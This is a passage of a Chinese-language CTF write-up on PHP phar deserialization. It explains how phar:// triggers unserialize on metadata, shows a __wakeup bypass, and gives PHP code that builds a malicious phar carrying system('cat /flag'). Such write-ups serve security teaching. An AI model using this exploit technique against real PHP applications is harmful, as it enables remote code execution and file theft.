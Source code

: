 ```php
    
    $phar->stopBuffering();
?>
```

在010打开文件
![image-20220828170332025](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828170332025-16618510974575.png)

可以看到一段反序列化字符，有序列化自然有反序列化
当你用**phar://**解析phar文件后，就会将这段数据反序列化![img](https://img2020.cnblogs.com/blog/1937992/202006/1937992-20200602120704676-1021025129.png)

当然包括include
test.php

```php
<?php
class TestObject{
   function __destruct()
    {
        echo $this -> data;   // TODO: Implement __destruct() method.
    }
}
include('phar://phar.phar');
```

![image-20220828170737831](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828170737831-16618511099877-16618511144069.png)

可以看到触发了反序列化

然后进入本题

### 题目详解

![image-20220828175238403](D:\Typora\note\CTF\web\知识点\phar反序列化.assets\image-20220828175238403.png)

先看看最终的目的，`使ljt=Misc dky=Re`就可rce，而反序列化时会进入**__wakeup**，所以首先要绕过**__wakeup**，就是把序列化后的字符串的变量个数多一个就好了
生成phar

```php
<?php
  unlink('phar.phar');
  class LoveNss{
    public $ljt="Misc";
    public $dky="Re";
    public $cmd="system('cat /flag');";
  }
 
  $a=new LoveNss();
  $phar = new Phar('phar.phar');
  $phar->setStub('<?php __HALT_COMPILER();?>');
  $phar->setMetadata($a);
  $phar->addFromString('1.txt','dky');
?>
```
